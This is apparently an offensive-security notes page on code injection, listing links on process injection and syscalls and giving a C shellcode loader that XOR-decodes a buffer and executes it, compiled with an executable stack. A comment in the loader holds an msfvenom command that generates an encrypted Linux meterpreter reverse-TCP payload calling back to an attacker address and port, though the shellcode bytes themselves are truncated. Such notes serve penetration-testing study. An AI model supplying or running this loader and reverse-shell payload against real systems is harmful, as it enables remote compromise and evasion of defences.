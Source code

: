 # Code Injection

* [https://yuval0x92.wordpress.com/2020/03/09/native-api-win32-api/](https://yuval0x92.wordpress.com/2020/03/09/native-api-win32-api/)
* [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
* [https://www.solomonsklash.io/syscalls-for-shellcode-injection.html](https://www.solomonsklash.io/syscalls-for-shellcode-injection.html)
* [https://jhalon.github.io/utilizing-syscalls-in-csharp-1/](https://jhalon.github.io/utilizing-syscalls-in-csharp-1/)
* [https://jhalon.github.io/utilizing-syscalls-in-csharp-2/](https://jhalon.github.io/utilizing-syscalls-in-csharp-2/)
* [https://github.com/jhalon/SharpCall](https://github.com/jhalon/SharpCall)




## Shellcode as Function

* [http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/](http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/)
* [https://www.fergonez.net/post/shellcode-csharp](https://www.fergonez.net/post/shellcode-csharp)
* [https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis](https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis)
* [https://github.com/byt3bl33d3r/OffensiveNim/issues/16](https://github.com/byt3bl33d3r/OffensiveNim/issues/16)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c)

Compile allowing execution on stack:

```
$ gcc -o loader loader.c -z execstack
```

{% code title="loader.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33...\x33\x37";

int main (int argc, char **argv)
{
	char xor_key = 'a';
	int arraysize = (int) sizeof(buf);
	for (int i = 0; i < arraysize-1; i++) { buf[i] = buf[i]^xor_key; }
	int (*ret)() = (int(*)())buf;
	ret();
}
```
{% endcode %}




## Tools



### Injector

* [https://github.com/0xDivyanshu/Injector](https://github.com/0xDivyanshu/Injector)
* [https://github.com/jfmaes/SharpZipRunner](https://github.com/jfmaes/SharpZipRunner)
